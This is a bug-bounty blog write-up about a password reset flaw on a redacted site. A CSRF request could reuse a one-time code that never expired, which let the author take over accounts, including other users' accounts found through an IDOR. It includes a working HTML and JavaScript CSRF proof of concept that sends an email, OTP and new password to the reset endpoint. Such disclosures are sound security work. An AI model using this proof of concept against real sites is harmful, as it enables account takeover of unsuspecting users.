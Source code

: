 ```yaml
---
title: "Exploiting CSRF and OTP Reuse: How Weak Token Management Enables Password Reset Attacks, Leading to ATO"
datePublished: Thu Nov 28 2024 18:38:31 GMT+0000 (Coordinated Universal Time)
cuid: cm8slnmcl001k09jo46ic40px
slug: exploiting-csrf-and-otp-reuse-how-weak-token-management-enables-password-reset-attacks-leading-to-c2f6b914f398
tags: [hunt,CSRF]
publish: true
---
```


Hello guy! I’m iPsalmy. It’s been a while I wrote anything here.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1743155290085/d323921f-4d60-4437-8c23-af12794cbd58.gif)

Anyway, with no waste of time let’s talk about how I used a simple CSRF attack to exploit a weak token management which led to me taking over users account.

I tend to test on password password reset mechanisms and IDOR more these days. So, while checking out the functionality on this website, let’s call it (redacted.com). I intercepted the forgot password request in Caido (web proxy), forwarded the request inorder to receive the token(OTP) in my mail.

With the token, I created a CSRF POC for this request.

<!DOCTYPE html>  
<html>  
<head>  
    <title>CSRF PoC for Password Reset</title>  
</head>  
<body>  
    <h1>CSRF PoC for Password Reset</h1>  
  
    <script>  
        // This JavaScript will create and send the PUT request with the JSON payload  
        fetch("https://redacted.com/v1/user/set-new-password/", {  
            method: "PUT",  
            headers: {  
                "Content-Type": "application/json"  
            },  
            body: JSON.stringify({  
                "email": "ipsalmy+40@gmail.com",  
                "otp\_code": "954195",  
                "password": "Weakpass2"  
            })  
        });  
    </script>  
</body>  
</html>  
  

Entered a password of my choice in the CSRF POC, saved this POC as .html file and launched it on my browser.

I went back to the login page of redacted.com and I tried to login with my previous password but couldn’t. Meaning…..

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1743155291808/d0f22ae4-e47c-4da4-a34d-493c0a3a4d1e.gif)

The CSRF worked! I got logged out of my account.

Now, to the most fun part. The token sent to to user’s mail wasn’t expiring even after use, meaning I was able to change users password thousands of times with the same token. Since it was provided by the website’s reset password API endpoint, it remained valid.

This happened only when used with a CSRF exploitation. If the Token is manually inputted, the API properly validates this token and made it expire after usage.

I was also able to perform this attack on other users I found through IDOR.

Thanks for reading : )

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1743155294068/061e142e-0f91-45ef-a5db-fdd93320282a.gif)